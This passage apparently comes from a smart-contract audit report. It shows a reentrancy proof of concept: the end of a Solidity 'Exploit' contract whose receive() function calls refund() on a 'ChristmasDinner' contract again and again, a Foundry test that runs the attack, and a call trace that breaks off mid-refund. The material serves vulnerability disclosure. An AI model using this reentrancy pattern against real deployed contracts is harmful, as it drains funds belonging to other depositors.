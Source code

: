 ```
        cd.refund();
    }

    receive() external payable {
        if(address(cd).balance > 0 && attempt < 3){
            console.log("Reenter");
            attempt += 1;
            cd.refund();
        } else {
            console.log("CD ETH: ", address(cd).balance);
            console.log("This ETH: ", address(this).balance);
        }
    }
}

function testReentrancyInRefundETH() public {
    vm.deal(user1, 5 ether);
    vm.deal(user2, 1 ether);

    // Simulate user 1 depositing 5 ether
    vm.startPrank(user1);
    (bool success1, ) = address(cd).call{value: 5 ether}("");
    require(success1, "Deposit ether failed for user 1");
    vm.stopPrank();

    // Simulate user 2 passing 1 ether to exploit contract and then deposit
    vm.startPrank(user2);
    Exploit exploit = new Exploit{value: 1 ether}(cd);
    exploit.attack();
    vm.stopPrank();
}
```
Results
```diff
[397814] ChristmasDinnerTest::testReentrancyInRefundETH()
    ├─ [0] VM::deal(user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF], 5000000000000000000 [5e18])
    │   └─ ← [Return] 
    ├─ [0] VM::deal(user2: [0x537C8f3d3E18dF5517a58B3fB9D9143697996802], 1000000000000000000 [1e18])
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF])
    │   └─ ← [Return] 
    ├─ [24234] ChristmasDinner::receive{value: 5000000000000000000}()
    │   ├─ emit NewSignup(: user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF], : 5000000000000000000 [5e18], : true)
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(user2: [0x537C8f3d3E18dF5517a58B3fB9D9143697996802])
    │   └─ ← [Return] 
    ├─ [235627] → new Exploit@0x490452EE20b56a33EE7e98cC7dA68d009cFE49fe
    │   └─ ← [Return] 1064 bytes of code
    ├─ [84190] Exploit::attack()
    │   ├─ [24234] ChristmasDinner::receive{value: 1000000000000000000}()
    │   │   ├─ emit NewSignup(: Exploit: [0x490452EE20b56a33EE7e98cC7dA68d009cFE49fe], : 1000000000000000000 [1e18], : true)
    │   │   └─ ← [Stop] 
    │   ├─ [52327] ChristmasDinner::refund()
    │   │   ├─ [7310] ERC20Mock::transfer(Exploit: [0x490452EE20b56a33EE7e98cC7dA68d009cFE49fe], 0)
    │   │   │   ├─ emit Transfer(from: ChristmasDinner: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], to: Exploit: [0x490452EE20b56a33EE7e98cC7dA68d009cFE49fe], value: 0)
    │   │   │   └─ ← [Return] true
```
